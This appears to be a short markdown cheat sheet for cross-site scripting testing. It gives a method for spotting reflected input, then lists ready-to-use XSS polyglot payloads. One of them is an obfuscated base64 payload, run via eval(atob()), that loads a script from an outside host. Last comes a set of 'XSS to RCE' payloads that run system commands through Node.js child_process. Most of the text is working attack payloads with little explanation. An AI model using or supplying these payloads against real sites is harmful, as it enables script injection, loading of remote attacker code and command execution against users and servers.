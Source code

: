 # XSS

### Scope:
```
GET|POST parameters
Path
```

### Detect reflections

past some keyword for detecting reflections in response like ```PayloadHere``` and send request.
search in response keyword ```PayloadHere```
if keyword reflected than past xss payloads.

### XSS Polyglots:
```
%3C!%27/*!%22/*!\%27/*\%22/* — !%3E%3C/Title/%3C/script/%3E%3CInput%20Type=Text%20Style=position:fixed;top:0;left:0;font-size:999px%20*/;%20Onmouseenter=confirm`1`%20//%3E#
```
```
<!'/*!”/*!\'/*\"/* — !></Title/</script/><Input Type=Text Style=position:fixed;top:0;left:0;font-size:999px */; Onmouseenter=confirm`1` //>#
```
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/ — !>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
```
">><marquee><img src=x onerror=confirm(1)></marquee>” ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’ →” >
"></script><script>alert(1)</script>”><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'">"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnhzcy54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
```
```
" onclick=alert(1)//<button ' onclick=alert(1)//> */ alert(1)//
```
```
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))// →</SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```
### From XSS to RCE

From xss to rce payload for nodejs application

```
<TagName EventHandler="require('child_process').execSync('calc.exe')">
```
or for Linux

```
<TagName EventHandler="require('child_process').exec('gnome-
calculator');">
```

#### Credit: @h4x0r_fr34k

Windows Payload:

```
<img src=x onerror="alert(require('child_process').execSync('calc').toString());">
```
